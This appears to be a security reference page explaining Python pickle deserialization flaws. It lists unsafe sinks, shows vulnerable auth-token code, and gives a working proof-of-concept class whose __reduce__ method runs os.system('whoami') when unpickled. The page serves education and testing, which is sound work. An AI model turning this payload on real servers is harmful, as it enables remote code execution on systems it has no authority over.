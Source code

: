 # Python Deserialization

## Summary

* [Detection](#detection)
* [Pickle](#pickle)
* [References](#references)


## Detection

In Python source code, look for these sinks:

* `cPickle.loads`
* `pickle.loads`
* `_pickle.loads`
* `jsonpickle.decode`


## Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```


## References

- [Exploiting misuse of Python's "pickle" - Nelson Elhage - March 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)